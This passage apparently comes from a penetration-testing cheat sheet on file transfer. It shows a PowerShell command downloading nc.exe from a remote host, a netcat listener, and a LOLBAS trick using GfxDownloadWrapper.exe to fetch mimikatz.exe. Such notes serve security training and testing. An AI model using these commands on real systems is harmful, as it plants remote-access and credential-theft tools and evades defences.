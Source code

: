 ```powershell
Invoke-WebRequest http://10.10.10.32/nc.exe -UserAgent $UserAgent -OutFile "C:\Users\Public\nc.exe"
```

```shell
nc -lvnp 80
```
## LOLBAS / GTFOBins
#### Transferring File with GfxDownloadWrapper.exe
```powershell
GfxDownloadWrapper.exe "http://10.10.10.132/mimikatz.exe" "C:\Temp\nc.exe"
```
